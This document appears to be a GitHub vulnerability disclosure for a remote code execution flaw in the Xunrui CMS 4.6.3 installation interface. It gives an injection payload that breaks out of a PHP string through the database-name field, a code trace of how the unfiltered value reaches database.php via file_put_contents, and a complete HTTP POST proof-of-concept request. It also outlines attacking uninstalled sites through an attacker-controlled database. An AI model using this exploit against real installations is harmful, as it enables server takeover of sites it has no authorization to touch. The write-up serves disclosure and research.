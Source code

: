 # xunruicms_rce<br>
The RCE is connected through the CMS installation interface<br>
# Xunrui CMS Installation Vulnerability<br>

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)<br>

## Payload:
``` exp;-- ---'];phpinfo();['```

###Vulnerability Reproduction:<br>
Normal installation of .database.php<br>
During installation, the process immediately jumps to step 3.<br>
File After Successful Exploitation:
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%871.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%872.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%873.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%874.png)
The file after exploitation shows how the vulnerability is exploited.

#Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . <br>

![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%875.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%876.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%877.png)
The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']<br>
However, bypassing the database creation query is required.<br>

###Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.<br>
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE<br>
Thus, the exploit is:<br>
```exp;-- ---'];phpinfo();['```

<br>###Dynamic Analysis:<br>
If the SQL query is successfully executed, the rest of the process proceeds smoothly.<br>
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php<br>
###Proof of Concept (PoC):<br>
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

###Reproduce the Issue:<br>
1.Remotely connect to the attacker's database.<br>
2.The other party did not install the CMS, and did not generate the lock file.<br>
